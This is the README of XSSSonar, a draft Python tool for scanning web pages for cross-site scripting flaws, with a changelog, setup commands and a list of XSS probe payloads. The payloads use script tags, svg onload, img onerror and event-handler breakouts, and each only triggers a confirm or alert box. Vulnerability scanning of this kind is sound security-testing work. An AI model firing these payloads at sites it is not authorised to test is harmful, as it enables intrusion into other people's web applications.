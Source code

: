 # XSSSonar

Little tool to look for XSS vulnerabilities in a web page.

![XSS Sonar Screenshot](xsssonar.png)

## Info

This code is just a draft. There are some errors still to be corrected, and sometimes false positives occur.<br/>
Test with Python 2.7.9 on Debian Jessie. I'll write it for Python 3.x maybe.<br/>

## ChangeLog

<strong>0.1.6</strong><br/>
[-] Fixed some bugs<br/>
[-] Added scan on list of POST parameters<br/>
[-] Added option to assign default value to a POST parameter<br/>
[-] Added help function<br/>
<br/>
<strong>0.1.5a</strong><br/>
[-] Fixed some bugs<br/>
[-] Less than 400 lines of code<br/>
<br/>
<strong>0.1.5</strong><br/>
[-] Added scan on POST parameters<br/>
[-] Changed name<br/>
<br/>
<strong>0.1.4a</strong><br/>
[-] Added stopwatch to know the time spent to check each URL<br/>
[-] Same features with 1500 lines of code missing<br/>
<br/>
<strong>0.1.4</strong><br/>
[-] Check a single URL or a list.txt of sites

## List of XSS Payloads

    '">"'><img src=x onerror=confirm`XSS`>
    "> <script>alert`XSS`</script>
    '">"'><svg onload=confirm`XSS`>
    "',;</script><script>confirm`XSS`</script>
    '><svg onload=confirm`XSS`>
    "><svg/onload=confirm`XSS`//
    "><details/open/ontoggle=confirm`XSS`>
    " onfocus="confirm`XSS`" autofocus=""
    " onclick="confirm`XSS`"
    " onmouseover="confirm`XSS`"
    \"-confirm`XSS`//
    \'-confirm`XSS`//
    "-confirm`XSS`-"'-confirm`XSS`-'

## To start

pip install fake-useragent<br/>
python xsssonar.py
